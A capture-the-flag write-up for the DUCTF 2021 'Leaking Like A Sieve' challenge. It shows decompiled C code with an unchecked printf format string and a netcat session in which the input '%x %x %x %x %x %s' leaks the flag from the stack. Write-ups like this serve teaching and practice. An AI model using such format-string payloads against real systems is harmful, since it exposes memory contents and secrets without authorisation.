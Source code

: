 # Leaking Like A Sieve | DUCTF 2021

## Problem
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

Author: xXl33t_h@x0rXx
nc pwn-2021.duc.tf 31918

## Solution
Decompile in Ghidra, check out the source.
```c
void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on theshell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

Because there is no input validation into printf function in the loop, it is possible to leak memory and have it return to the user.  
It just takes some trial and error to find the right spot where the flag is located in memory. Addresses can be pulled from the stack with %x and read with %s.
```bash
┌──(kali㉿kali)-[]-[~/Downloads]
└─$ nc pwn-2021.duc.tf 31918

What is your name?
%x %x %x %x %x %s

Hello there, d7e422d0 a50348c0 0 e a52604c0 DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```